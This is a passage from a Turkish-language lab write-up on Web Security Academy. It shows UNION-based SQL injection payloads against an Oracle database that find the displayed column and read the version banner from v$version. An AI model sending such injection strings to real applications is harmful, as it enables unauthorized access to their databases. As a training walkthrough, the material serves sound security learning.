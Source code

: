 Ekrana yazılan kolonun da 2. kolon olduğunu bu şekilde tespit etmekteyiz.

```html
' UNION SELECT null,'ilker' FROM dual--
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2016.png)

Oracle veritabanında versiyon bilgisini öğrenmek için de yukarıda paylaştığımız cheat sheet’te görebileceğiniz üzere bu şekilde bir sorgu yazmamız gerekmektedir.

```html
' UNION SELECT null,banner FROM v$version--
```

Bu sorguyu yaptığımızda da lab’ın çözüldüğünü görebiliriz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2017.png)
